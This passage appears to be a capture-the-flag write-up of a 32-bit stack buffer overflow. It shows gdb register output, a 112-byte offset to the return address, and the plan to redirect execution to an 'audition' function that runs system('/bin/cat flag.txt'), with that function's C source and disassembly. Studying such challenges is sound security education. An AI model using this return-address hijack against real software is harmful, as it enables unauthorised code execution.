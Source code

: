 Good, now let's print out the registers!

```
(gdb) i r
eax            0xffffd26c          -11668
ecx            0xf7f93580          -134662784
edx            0xffffd270          -11664
ebx            0x0                 0
esp            0xffffd2dc          0xffffd2dc
ebp            0xffffd2e8          0xffffd2e8
esi            0xf7f93000          -134664192
edi            0xf7f93000          -134664192
eip            0x804921d           0x804921d <get_audition_info+89>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb)
```

`eax` is the same as before, so we can verify that's right. Now, `esp` is the stack pointer. Looks like `0xffffd2dc` is the address we want to overwrite!

I made a [python script](sol.py) to do this for me, because I don't think it's possible to type in a buffer overflow on a keyboard, anyways.

So, when we connect to the server, we have to send out 112 bytes to get to the address in the stack that is read when the `ret` statement is called.

Then, we can overwrite the return address with the function `audition`, which you remember is what prints the flag.

```c
void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}
```

The `audition` function is at `0x08049182` when you look at [bof.asm](bof.asm).

```
08049182 <audition>:
 8049182:	55                   	push   ebp
 8049183:	89 e5                	mov    ebp,esp
 8049185:	53                   	push   ebx
 8049186:	83 ec 14             	sub    esp,0x14
 8049189:	e8 ff 00 00 00       	call   804928d <__x86.get_pc_thunk.ax>
 804918e:	05 72 2e 00 00       	add    eax,0x2e72
 8049193:	8d 90 08 e0 ff ff    	lea    edx,[eax-0x1ff8]
 8049199:	89 55 f4             	mov    DWORD PTR [ebp-0xc],edx
 804919c:	81 7d 08 b0 04 00 00 	cmp    DWORD PTR [ebp+0x8],0x4b0
 80491a3:	75 19                	jne    80491be <audition+0x3c>
 80491a5:	81 7d 0c 6e 01 00 00 	cmp    DWORD PTR [ebp+0xc],0x16e
 80491ac:	75 10                	jne    80491be <audition+0x3c>
 80491ae:	83 ec 0c             	sub    esp,0xc
 80491b1:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 80491b4:	89 c3                	mov    ebx,eax
 80491b6:	e8 95 fe ff ff       	call   8049050 <system@plt>
 80491bb:	83 c4 10             	add    esp,0x10
 80491be:	90                   	nop
 80491bf:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 80491c2:	c9                   	leave  
```